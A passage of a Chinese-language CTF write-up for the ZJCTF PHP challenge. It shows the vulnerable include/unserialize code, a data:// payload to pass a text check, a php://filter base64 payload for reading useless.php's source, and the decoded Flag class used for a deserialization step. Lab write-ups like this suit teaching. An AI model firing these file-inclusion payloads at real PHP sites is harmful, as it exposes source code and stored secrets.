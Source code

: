 ### 2. **示例解析**

```
?text=data://text/plain,welcome to the zjctf
```

- 协议：`data://` (某些实现中也写作 `data:`)
- MIME 类型：`text/plain`
- 编码：无 base64
- 内容：`welcome to the zjctf`
   浏览器或程序会将这段内容当作纯文本文件，内容直接显示。

    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }

过滤掉flag，提示useless.php

```
file=php://filter/read=convert.base64-encode/resource=useless.php
?text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php
```

![image-20250803202408461](./NSSCTF-2.assets/image-20250803202408461.png)

解码得到

```
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```
